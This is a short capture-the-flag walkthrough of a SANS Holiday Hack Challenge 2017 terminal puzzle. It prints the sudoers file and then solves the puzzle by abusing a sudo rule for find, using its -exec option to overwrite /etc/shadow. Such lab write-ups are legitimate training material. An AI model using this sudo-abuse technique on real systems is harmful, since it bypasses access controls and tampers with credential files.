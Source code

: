 [Poppies](https://2017.holidayhackchallenge.com/assets/game/textures/poppies-f059c6edbcc20f71cba374496764ed0d.png)
[Transparent image](https://images.vexels.com/media/users/3/142236/isolated/preview/5813595300ed1fd400a76ec2d9958144-fire-smoke-flame-by-vexels.png)


## Oh Wait! Maybe WE Are...
[Game](https://2017.holidayhackchallenge.com/game/f09180b7-43e4-406c-83ac-924539e7b8f5)
[Terminal](https://docker2017.holidayhackchallenge.com/?challenge=a9d07a00-55bc-4391-a02b-71f3c4f1ec44&uid=ee838751-39b4-423a-8d67-6d935c88d650)

```
              \ /
            -->*<--
              /o\
             /_\_\
            /_/_0_\
           /_o_\_\_\
          /_/_/_/_/o\
         /@\_\_\@\_\_\
        /_/_/O/_/_/_/_\
       /_\_\_\_\_\o\_\_\
      /_/0/_/_/_0_/_/@/_\
     /_\_\_\_\_\_\_\_\_\_\
    /_/o/_/_/@/_/_/o/_/0/_\
   jgs       [___]  
My name is Shinny Upatree, and I've made a big mistake.
I fear it's worse than the time I served everyone bad hake.
I've deleted an important file, which suppressed my server access.
I can offer you a gift, if you can fix my ill-fated redress.
Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
Hint: What commands can you run with sudo?
elf@efe5512c7bd3:~$ cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
# Host alias specification
# User alias specification
# Cmnd alias specification
# User privilege specification
root    ALL=(ALL:ALL) ALL
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL
# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL
# The elf user can run `find` with the shadow group
elf             ALL=(:shadow) NOPASSWD:/usr/bin/find
# See sudoers(5) for more information on "#include" directives:
#includedir /etc/sudoers.d
elf@efe5512c7bd3:~$ sudo -g shadow /usr/bin/find /etc/shadow.bak -exec cp /etc/shadow.bak /etc/shadow \;
elf@efe5512c7bd3:~$ inspect_da_box 
                     ___
                    / __'.     .-"""-.
```